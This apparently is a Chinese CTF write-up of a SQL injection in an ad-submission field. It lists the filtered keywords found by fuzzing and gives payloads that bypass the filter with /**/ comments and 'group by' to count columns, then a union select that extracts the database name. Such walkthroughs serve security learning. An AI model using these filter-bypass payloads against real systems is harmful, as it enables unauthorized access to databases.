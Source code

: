 ### group by 代替 order by 绕过

![](https://pic1.imgdb.cn/item/67b31551d0e0a243d40041ad.png)

打开页面是个登录页面

![](https://pic1.imgdb.cn/item/67b3210bd0e0a243d4004609.png)

先注册一个账号

![](https://pic1.imgdb.cn/item/67b32131d0e0a243d400460d.png)

登录进去有一个申请发布广告

![](https://pic1.imgdb.cn/item/67b3214dd0e0a243d4004611.png)

申请广告时标题输入 and 提示敏感词汇

![](https://pic1.imgdb.cn/item/67b3218bd0e0a243d400461e.png)

换为 ' 申请广告

![](https://pic1.imgdb.cn/item/67b321c7d0e0a243d400462b.png)

点击广告详情

![](https://pic1.imgdb.cn/item/67b321f6d0e0a243d4004631.png)

发现有 SQL 报错

![](https://pic1.imgdb.cn/item/67b321e9d0e0a243d4004630.png)

进行 fuzz 测试发现以下被过滤

```sql
空格被替换为空
or
and
join
--+
#
updatexml
extractvalue
exp
floor
...
```

`order by` 不能使用，可以使用 `group by` 或者 `into @a, @b, @c, ...`

```sql
'group/**/by/**/23,'
```

![](https://pic1.imgdb.cn/item/67b32387d0e0a243d4004673.png)

23 报错说明只有 22，联合查询拿数据库名

```sql
'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

![](https://pic1.imgdb.cn/item/67b32312d0e0a243d4004664.png)